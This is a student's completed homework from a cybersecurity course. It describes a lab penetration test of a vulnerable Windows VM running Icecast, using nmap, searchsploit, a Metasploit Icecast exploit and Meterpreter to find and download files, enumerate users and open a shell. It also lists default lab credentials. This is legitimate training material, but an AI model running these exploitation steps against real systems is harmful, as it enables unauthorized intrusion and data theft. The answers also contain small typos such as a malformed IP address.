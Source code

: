 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit Icecast

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfconsole
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search Icecast
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: #0
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set RHOST 192.168.09.20
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f secretfile.txt
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: search -f recipe.txt
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: download c:\Users\IEUser\Documents\Drinks.recipe.txt
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users
 
     
B. Open a Meterpreter shell. 
 
  > Answer: shell
 
C. Run the command that displays the target's computer system information:

   > Answer: systeminfo



---
